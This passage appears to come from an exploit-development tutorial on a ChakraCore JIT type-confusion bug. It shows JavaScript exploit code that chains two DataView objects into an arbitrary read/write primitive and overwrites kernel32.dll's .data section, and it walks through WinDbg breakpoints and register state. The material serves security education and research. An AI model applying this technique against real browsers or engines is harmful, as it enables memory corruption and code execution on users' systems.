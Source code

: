 ```javascript
}

function main() {
    for (let i = 0; i < 2000; i++) {
        let o = {a: 1, b: 2};
        opt(o, {}, {});
    }

    let o = {a: 1, b: 2};

    opt(o, o, obj);     // Instead of supplying 0x1234, we are supplying our obj

    // Corrupt obj->auxSlots with the address of the first DataView object
    o.c = dataview1;

    // Print debug statement
    print("DEBUG");

    // Corrupt dataview1->buffer with the address of the second DataView object
    obj.h = dataview2;

    // Set dataview2->buffer to kernel32.dll .data section (which is writable)
    dataview1.setUint32(0x38, 0x5b3d0000+0xa4000, true);
    dataview1.setUint32(0x3C, 0x00007fff, true);

    // Overwrite kernel32.dll's .data section's first 8 bytes with 0x4141414141414141
    dataview2.setUint32(0x0, 0x41414141, true);
    dataview2.setUint32(0x4, 0x41414141, true);
}

main();
```

We know from our last debugging session that the function `chakracore!Js::DynamicTypeHandler::SetSlotUnchecked` was responsible for updating `o.c = dataview1`. Let's set another breakpoint here to view our `obj.h = dataview2` line of code in action.

<img src="{{ site.url }}{{ site.baseurl }}/images/2typeconfusion45.png" alt="">

After hitting the breakpoint, we can examine the RCX register, which contains the in-scope dynamic object passed to the `SetSlotUnchecked` function. We can clearly see this is our `obj` object, as `obj->auxSlots` points to our `dataview1` `DataView` object.

<img src="{{ site.url }}{{ site.baseurl }}/images/2typeconfusion46.png" alt="">

We can then set a breakpoint on our final `mov qword ptr [rcx+rax*8], rdx` instruction, which we previously have seen, which will perform our `obj.h = dataview2` instruction.

<img src="{{ site.url }}{{ site.baseurl }}/images/2typeconfusion47.png" alt="">

After hitting the instruction, we can can see that our `dataview1` object is about to be operated on, and we can see that the `buffer` of our `dataview1` object currently poitns to `0x24471ebed0`.
